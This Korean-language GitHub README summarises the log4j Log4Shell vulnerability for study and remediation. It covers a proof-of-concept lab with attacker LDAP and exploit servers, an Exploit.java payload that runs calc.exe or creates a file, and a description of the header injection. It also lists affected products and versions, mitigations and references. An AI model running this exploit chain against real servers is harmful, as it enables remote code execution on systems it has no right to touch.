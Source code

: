 # log4j 취약점 정리

* log4j는 대부분의 java application에서 범용적으로 사용되는 로깅 라이브러리
* log4j에서 JNDI(JAVA Naming and Directory Interface)를 통하여 LDAP이나 DNS lookup 가능하며 제한이 없음
  * java class의 URI도 JNDI lookup의 리턴값으로 가져올 수 있음 

# PoC 환경
  * Victim : log4j 취약점을 갖은 서버 (vulnerable-app)
    * e.g.) log.info("Received a request for API version {}", X-Api-Version);
    * listen port 8080
    * ![victim](image/victim_vuln_spring_server.png)
  * Attacker LDAP 조회 응답 서버
    * listen port 1389
    * ![ldapref](image/attacker_ldapref_server.png)
  * Attacker Exploit 코드를 가진 서버
    * listen port 8888
    * ![exploit](image/attacker_exploit_server.png)
    * Exploit.java
      ```java
        public class Exploit {
          public Exploit() {}
          static {
              try {
                  String[] cmds = System.getProperty("os.name").toLowerCase().contains("win")
                          ? new String[]{"cmd.exe","/c", "calc.exe"}
                          : new String[]{"touch","/tmp/log4j_vuln_cjcert"};
                  java.lang.Runtime.getRuntime().exec(cmds).waitFor();
              }catch (Exception e){
                  e.printStackTrace();
              }
          }
          public static void main(String[] args) {
              Exploit e = new Exploit();
          }
      }
      ```
# 실행
  * 취약점을 갖은 서버로 Http Header 내 X-Api-Version 키에 jdni ldap 서버의 주소와 java클래스 이름으로 보냄
    * ![exploit](image/attack_req.png)
  * 해당 서버 내 /tmp log4j_vuln_cjcert 파일 생성
    * ![attk_result](image/attack_result.png)

# 정규식
https://regex101.com/r/ssSBdZ/2

# header 정보
https://github.com/fullhunt/log4j-scan/blob/master/headers-large.txt

# 영향받는 시스템
  * Elasticsearch
  * Grails
  * Hadoop
  * Kafka
  * Kibana
  * Solr
  * Spark
  * Struts
  * Tapestry
  * Wicket

# 영향 받는 log4j2 버전
  * 2.0 <= Apache log4j <= 2.14.1

# 해결 방안
  * 2.0-beta9 ~ 2.10.0
    * JndLookup 클래스를 경로에서 제거 : zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

  * 2.10 ~ 2.14.1
    * log4j2.formatMsgNoLookups 또는 LOG4J_FORMAT_MSG_NO_LOOKUPS 환경변수를 true로 설정

  * 제조사 홈페이지를 통해 최신버전(2.15.0)으로 업데이트 적용[3]

# 참고
  * https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=36389
  * https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
  * https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j
  * https://github.com/christophetd/log4shell-vulnerable-app
